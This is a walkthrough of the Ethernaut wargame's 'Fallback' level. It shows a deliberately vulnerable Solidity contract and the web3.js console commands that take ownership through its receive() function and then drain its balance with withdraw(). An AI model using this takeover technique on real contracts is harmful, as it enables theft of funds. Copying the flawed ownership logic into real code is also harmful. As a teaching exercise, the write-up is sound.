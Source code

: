 # Level 1: Fallback

This is the level 1 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites

- Sending transactions using [web3.js](https://ethereum.stackexchange.com/questions/53094/sending-ether-via-contract-instance) to a contract and to a payable function
- [Conversion between units ether & wei](https://web3js.readthedocs.io/en/v1.5.2/web3-utils.html#towei)
- Solidity contract [fallback](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity/81995) function

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

and `contract` methods & `web3.js` functions injected into console.

We, the `player` address, have to somehow become `owner` of the contract & withdraw all amount from contract.

Key parts to notice are `contribute` function and `receive` fallback function of contract.

From the constructor, it can be seen that `owner`'s contribution is 1000 eth. One way to become `owner` is to send more than current `owner`'s contributed eth to `contribute` function to be owner. Let's check `owner`'s contributed eth using console:

```javascript
ownerAddr = await contract.owner();
await contract.contributions('0x9CB391dbcD447E645D6Cb55dE6ca23164130D008').then(v => v.toString())

// Output '1000000000000000000000'
```
But, that'd be too much eth! We have nowhere near it. 

Take a look at `receive` fallback function though. It also has code to change ownerships. According to what code is there, we can claim ownership if:

- Contract has a non-zero contribution from us (i.e. `player`).
- Then, we send the contract a non-zero eth amount.

`player` address has zero contribution to contract currently, so let's satisfy first condition by sending a **less than 0.001** eth (required acc. to code):

```javascript
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
```

Now we have a non-zero contribution that you can verify by:

```javascript
await contract.getContribution().then(v => v.toString())
```

And now send any non-zero amount of ether to contract:
```javascript
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')})
```

Boom! We claimed ownership of the contract!
You can verify that `owner` is same address as `player` by:

```javascript
await contract.owner()
// Output: Same as player address
```

And for the final blow, withdraw all of contract's balance:

```javascript
await contract.withdraw()
```

Done.


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
